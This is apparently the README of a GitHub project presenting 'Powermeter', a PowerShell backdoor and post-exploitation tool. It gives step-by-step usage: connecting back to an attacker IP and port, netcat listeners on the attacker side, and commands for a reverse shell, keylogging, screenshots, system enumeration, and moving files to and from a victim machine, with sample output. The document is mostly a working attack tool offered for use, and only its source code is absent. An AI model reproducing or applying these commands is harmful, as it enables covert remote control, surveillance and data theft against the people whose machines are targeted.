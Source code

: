 # Powermeter
Powermeter is a basic powershell based backdoor/post exploit tool. Main functionalities are shown below. You can also check the video at the bottom of the page.
Note: It is highly recommended to watch the video at 1080p due to low quality of recording. It will be fixed soon :=)

To run this program you need to solve execution-policy problem on your system.

## How to run?
![pm1](https://github.com/mfcekirdek/Powermeter/blob/master/pm1.png "pm1")

	#Import powermeter functions
	>> PS C:\Users\decoder\Desktop> . .\powermeter.ps1
	
	#Start powermeter.
	#When this command is invoked, powermeter will establish a TCP connection to $SHOST:$SPORT (in this case 192.168.214.1:9190). After that, powermeter remote user interface will be ready to take commands and attacker will be able to use powermeter via this tcp connection.
	#$SPORT should be opened at $SHOST machine (in other words, attacker machine).'nc -lvp <SPORT>' command can do the trick. The main connection between powermeter and attacker will be established via this port. Attacker send commands to powermeter from this port. 
	#$FLPORT will be used for any job which requires file transfer (those are download,upload,screencap and keylogger threads). For example, if you want to download a from victim machine, you need to provide a listener $FLPORT at $SHOST machine like this: 'nc -lvp <FLPORT> > downloadedFile'. After that you can call the download function from powermeter shell like this: 'download C:\Users\decoder\Desktop\cozbeni.zip'
	>> PS C:\Users\decoder\Desktop> Start-Powermeter -SHOST 192.168.214.1 -SPORT 9190 -FLPORT 9192
	
	Parameters:
	SHOST - attacker machine's IP.
	SPORT - an open attacker machine port that waits for powermeter connection. #'nc -lvp <SPORT>' command can do the trick.
	FLPORT - attacker machine's file transfer port. This port should be opened at attacker's side to achieve jobs which includes downloading and uploading. (Screencapturing and keylogging are also inclusive because both of them use downloader threads. You may want to see the demo video to see how it works.)

## Commands

### In main module:

#### show options

Powermeter>show options

	 Command                			 Description
	 -------                			 -----------
	 get sysinfo            			 Get system information about victim machine
	 get username           			 Get username of victim machine
	 set FLPORT=<port>      			 Set file transfer port
	 rshell                 			 Open reverse shell module
	 start keylogger        			 Start keylogger thread
	 show jobs              			 Show all active threads
	 stop job -keylogger    			 Stop keylogger thread and download captured keystrokes from file port
	 stop job -reverseShell 			 Stop reverse shell session and thread
	 stop job -sendFile     			 Stop file downloading thread
	 stop job -receiveFile  			 Stop file uploading thread
	 stop job -all          			 Stop all active threads
	 screencap -screen      			 Capture screenshot of victim machine [WHOLE SCREEN] and download it
	 screencap -activeWindow			 Capture screenshot of victim machine [ACTIVE WINDOW] and download it
	 download <fileFromVictim>			 Download a file from victim machine.[<fileFromVictim>: An absolute file path in victim machine that the attacker downloads]
	 upload <fileToVictim>  			 Upload a file to victim machine.[<fileToVictim>: An absolute file path in victim machine to store file uploaded by attacker]
	 exit                   			 Exit the program
	 Important: File transfer port should be opened at attacker's side to achieve downloading,uploading files.


![pm2](https://github.com/mfcekirdek/Powermeter/blob/master/pm2.png "pm2")

#### get sysinfo

Powermeter>get sysinfo

	 Name                   		Value
	 -------                		--------
	 OS Version:            		Microsoft Windows 7 Enterprise 
	 Install Date:          		20171223133718.000000+180
	 Service Pack Version:            		1
	 OS Architecture:       		64-bit
	 Boot Device:           		\Device\HarddiskVolume1
	 Build Number:          		7601
	 Host Name:             		WIN-1D86SE11EIA
	 Internet Explorer Version:		8.0.7601.17514

![pm3](https://github.com/mfcekirdek/Powermeter/blob/master/pm3.png "pm3")

#### set FLPORT=<PORT>

Powershell>set FLPORT=9192
[+]FLPORT is set

![pm4](https://github.com/mfcekirdek/Powermeter/blob/master/pm4.png "pm4")

#### get username

Powermeter>get username
decoder

![pm5](https://github.com/mfcekirdek/Powermeter/blob/master/pm5.png "pm5")

#### rshell

[prerequisite]: 
On attacker side> nc -lvp 9191

Powermeter>rshell
Powermeter>reverse_shell>set LHOST=192.168.214.1
[+]LHOST is set
Powermeter>reverse_shell>set LPORT=9191
[+]LPORT is set
Powermeter>reverse_shell>run
Powermeter>reverse_shell>[+]TCP reverse shell

![pm6](https://github.com/mfcekirdek/Powermeter/blob/master/pm6.png "pm6")

![pm7](https://github.com/mfcekirdek/Powermeter/blob/master/pm7.png "pm7")

Other commands in reverse shell module:

Powermeter>reverse_shell>show options

	 Command                			 Description
	 -------                			 -----------
	 set LHOST=<IPv4>       			 Set local IP address
	 set LPORT=<port>       			 Set local port address
	 run                    			 Start reverse shell
	 back                   			 Exit from reverse shell module

![pm23](https://github.com/mfcekirdek/Powermeter/blob/master/pm23.png "pm23")

#### stop job -reverseShell (stop job -rs)

Powermeter>stop job -reverseShell
[+]ReverseShellJob is terminated..

![pm8](https://github.com/mfcekirdek/Powermeter/blob/master/pm8.png "pm8")

#### show jobs

Powermeter>show jobs
[+]Active jobs:

JobStateInfo  : Running
Finished      : System.Threading.ManualResetEvent
InstanceId    : 50fae208-73d2-4ea0-8f91-0c37597c918b
Id            : 5
Name          : ReverseShellJob
ChildJobs     : {Job6}
Output        : {}
Error         : {}
Progress      : {}
Verbose       : {}
Debug         : {}
Warning       : {}
State         : Running

![pm9](https://github.com/mfcekirdek/Powermeter/blob/master/pm9.png "pm9")

#### stop job -all

Powermeter>stop job -all
[+]ReverseShellJob is terminated..
[+]ReceiveFileJob is terminated..

![pm10](https://github.com/mfcekirdek/Powermeter/blob/master/pm10.png "pm10")

#### screencap -screen

[prerequisite]: 
On attacker side> nc -lvp 9192 > screenshot.png

Powermeter>screencap -screen
[+]Screenshot saved..

![pm12](https://github.com/mfcekirdek/Powermeter/blob/master/pm12.png "pm12")

![pm13](https://github.com/mfcekirdek/Powermeter/blob/master/pm13.png "pm13")

#### screencap -activeWindow

[prerequisite]: 
On attacker side> nc -lvp 9192 > screenshotActiveWindow.png

Powermeter>screencap -activeWindow
[+]Screenshot is saving..

![pm14](https://github.com/mfcekirdek/Powermeter/blob/master/pm2.png "pm14")

![pm24](https://github.com/mfcekirdek/Powermeter/blob/master/pm2.png "pm24")

#### start keylogger & stop job -keylogger

[prerequisite]: 
On attacker side> nc -lvp 9192 > log.txt

Powermeter>start keylogger
[+]KeyLogger is starting..
Powermeter>stop job -keylogger
[+]Keylogger is terminated..

![pm15](https://github.com/mfcekirdek/Powermeter/blob/master/pm15.png "pm15")

![pm19](https://github.com/mfcekirdek/Powermeter/blob/master/pm19.png "pm19")

#### download <file>

[prerequisite]: 
On attacker side> nc -lvp 9192 > downloadedFile

Powermeter>download C:\Users\decoder\Desktop\cozbeni.zip
[+]File is downloading..

![pm18](https://github.com/mfcekirdek/Powermeter/blob/master/pm18.png "pm18")

![pm25](https://github.com/mfcekirdek/Powermeter/blob/master/pm25.png "pm25")

#### upload <file>

[prerequisite]: 
On attacker side> nc -lvp 9192 \< uploadedFile

Powermeter>upload C:\Users\decoder\Desktop\img.jpg
[+]File is uploading..

![pm20](https://github.com/mfcekirdek/Powermeter/blob/master/pm20.png "pm20")

![pm22](https://github.com/mfcekirdek/Powermeter/blob/master/pm22.png "pm22")


A quick demo video
=============

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/0D49nX_bD_8/0.jpg)](https://www.youtube.com/watch?v=0D49nX_bD_8)

